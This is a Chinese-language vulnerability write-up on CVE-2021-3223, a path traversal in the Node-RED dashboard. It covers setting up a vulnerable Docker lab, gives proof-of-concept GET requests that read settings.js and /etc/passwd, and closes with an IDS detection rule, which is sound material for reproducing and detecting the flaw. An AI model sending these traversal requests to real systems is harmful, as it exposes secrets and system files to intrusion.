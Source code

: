## Node-RED ui_base 任意文件读取漏洞(CVE-2021-3223)

### 0X 01、漏洞描述

Node-RED 在/nodes/ui_base.js中，URL与'/ui_base/js/*'匹配，然后传递给path.join，
缺乏对最终路径的验证会导致路径遍历漏洞，读取敏感数据，比如settings.js

**Version effect**:

```
node-red-dashboard 2.24.0
```

### 0X 02、漏洞验证 

#### <1> 环境部署：

To run in Docker in its simplest form just run:

```bash
构建：
docker run -p 1880:1880 -d --name mynodered nodered/node-red:1.2.3
npm i node-red-dashboard@2.24.0
docker restart `Containername`

一键启动（已制作一键启动镜像，自由食用）：
docker run -p 1880:1880 -d --name mynodered vulshare/node-red-dashboard-cve-2021-3223:iosname
```

#### <2> 漏洞验证：

```http
GET /ui_base/js/..%2f..%2f..%2f..%2fsettings.js
GET /ui_base/js/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

![image-20210712165202656](image/image-20210712165202656.png)

### 0X 03、漏洞检测相关

**规则如下：**

```ruby
alert tcp any any -> $EXTERNAL_NET $HTTP_PORTS (msg:"Node-RED ui_base 任意文件读取漏洞(CVE-2021-3223)"; flow:established,to_server; content:"ui_base"; nocase; http_uri; pcre:"/ui_base[/|\\]js(%2f|\x2f)..(%2f|\x2f)..(%2f|\x2f)/i";  classtype:web-application-attack; sid:2020233; rev:1;)
```

### 0X 04、 验证如下

![image-20210706104404822](image/image-20210706104404822.png)

